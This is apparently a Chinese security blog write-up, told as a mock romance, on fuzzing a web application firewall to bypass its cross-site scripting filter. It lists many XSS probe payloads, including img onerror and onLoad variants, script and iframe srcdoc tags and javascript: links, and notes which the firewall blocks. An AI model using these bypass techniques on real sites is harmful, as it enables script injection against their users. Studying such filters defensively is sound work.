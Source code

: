 > 想起去年偶遇长亭waf雷某，其强大的语义分析和强大的机器学习能力，属实让我吃了不少苦，不过当年稚嫩的我还是花了几分钟来Bypass，结合一些特定场景赢得了其芳心，但是总感觉胜之不武，速度太快，略有遗憾，最后因XSS又不能RCE，只能挥泪告别，没能继续做深入交流。
> 
> 但如今的我，已经没有RCE的包袱了，却再也没有机会遇见某雷，重续前缘。可我万万没想到，在某酒吧溜达寻找目标的时候，某网站应用防火墙向我款款走来！

### 0x3.1 厚脸皮

作为一名老实人，fuzz手段是极其朴素的。

```php
<div><img%20src='http://qq.com/'%20onerror></div>
```

直接拦截，正常来说我的套路是:

```php
<div><img%20src='http://qq.com/'%20onerror></div>
<div><img%20src='http://qq.com/'%20onerror=></div>
<div><img%20src='http://qq.com/'%20onerror=x></div>
```

有onerror直接拦截，高冷型，这个时候，我的法拉利钥匙不经意掉了下来。

```php
<div><img%20src='http://qq.com/'%20onLoad></div>
```

这下子，不拦截了，那么我继续试试邀请她上车。

```php
<div><img%20src='http://qq.com/'%20onLoad=></div> <!--多加了一个=号，用来测试他的拦截规则-->
```

也许是她看见了车上不起眼的杜蕾x，直接给了我一巴掌，然后愤愤地推开了我。

难道我要再一次错过这段天赐良缘，可我内心是极其不甘心的，我拉着某防火墙的小手，掏出了我的各种财富证明，例如:

```php
<div><img%20src='http://qq.com/'%20onLoad1=></div> 
```

这个并没有拦截，说明了女神应该对某些特定Event应该是情有独钟(比如法拉利，兰博基尼之类的)。

那么是时候带女神进车库转转？ 尝试各种Event事件？看看有哪些是女神看不上，但可能也是价格不菲的，来给女神一个意外的惊喜？

通常来说，我不会这样去做，因为从waf开发的角度来说，一般常用事件都会加入规则中，不常用的也是很鸡肋的，除非要找点特殊的特性来完美Bypass，这个成本的话稍微有点高，为了追个女孩子，不到万不得已，一般不会这样去做。

接下来，我做的是，先测试下女神的底线(即waf的基本逻辑):

```php
editTpl=<x%20onerror> #不拦截
editTpl=<x{fuzz}onerror=> #不拦截 fuzz内容为非换行、空格之类的字符
editTpl=<x%20onerror=> #拦截
editTpl=<x%0d%FFonerror=> #拦截
editTpl=<x/onerror=x>  #拦截
editTpl=<x/onLoad=x> #拦截
editTpl=<x/o nkeyup=x> #拦截，尝试一些偏移的事件
editTpl=<x/onLoad=x #拦截，想通过语义来绕过
editTpl=x/onLoad=x #拦截，这个都拦截，看来patch了很多绕过方式。
editTpl=x%20onLoad=x #拦截
editTpl=<script #拦截
editTpl=<script> #拦截
editTpl=<script> #拦截，什么大小写都是浮云
editTpl=<\script> #不拦截，允许闭合，好像没啥用？看来还是有一定自定义的规则的。
editTpl=<\script> #不拦截，直接回显原内容
editTpl=<x >#onLoad=> #拦截
editTpl=<iframe> #不拦截
editTpl=<iframe/src=x> #拦截
editTpl=<div><iframe%20src='http://qq.com'></div> #拦截
editTpl=<iframe/srcdoc=x> #拦截
editTpl=<a/href=x>123</a> #不拦截
editTpl=<a/href='javascript:'>123</a># 拦截，实体化编码也会解码进行拦截，鸡肋的一种
```